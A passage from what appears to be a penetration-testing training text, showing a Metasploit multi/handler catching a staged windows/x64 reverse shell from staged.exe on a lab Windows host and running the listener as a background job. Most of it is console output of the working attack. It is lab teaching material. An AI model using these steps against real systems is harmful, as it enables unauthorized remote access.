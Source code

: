 > Listing 52 - Set payload and options for multi/handler and launch it

Once our listener is running on port 443, we can start **staged.exe** again on BRUTE2. Our Metasploit multi/handler receives the incoming staged payload and provides us with an interactive reverse shell in the context of a session.

```
[*] Started reverse TCP handler on 192.168.119.2:443 
[*] Sending stage (336 bytes) to 192.168.50.202
[*] Command shell session 6 opened (192.168.119.2:443 -> 192.168.50.202:50838) at 2022-08-01 10:18:13 -0400

Shell Banner:
Microsoft Windows [Version 10.0.20348.169]
-----
          

C:\Users\justin> whoami
whoami
brute2\justin
```

> Listing 53 - Incoming reverse shell from Windows binary with staged payload

Nice! We received the staged reverse shell and Metasploit started a session for us to use. For staged and other advanced payload types (such as Meterpreter), we must use multi/handler instead of tools like Netcat for the payload to work.

Using *run* without any arguments will block the command prompt until execution finishes or we background the session. As we've learned before, we can use *run -j* to start the listener in the background, allowing us to continue other work while we wait for the connection. We can use the *jobs* command to get a list of all currently active jobs, such as active listeners waiting for connections.

Let's exit our session and restart the listener with **run -j**. Then, we'll list the currently active jobs using **jobs**. Once we execute **staged.exe** again, Metasploit notifies us that a new session was created.

```
C:\Users\justin> exit
exit

[*] 192.168.50.202 - Command shell session 6 closed.  Reason: User exit
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.119.2:443 

msf6 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                        Payload opts
  --  ----                    -------                        ------------
  1   Exploit: multi/handler  windows/x64/shell/reverse_tcp  tcp://192.168.119.2:443

msf6 exploit(multi/handler) > 
[*] Sending stage (336 bytes) to 192.168.50.202
[*] Command shell session 7 opened (192.168.119.2:443 -> 192.168.50.202:50839) at 2022-08-01 10:26:02 -0400
```
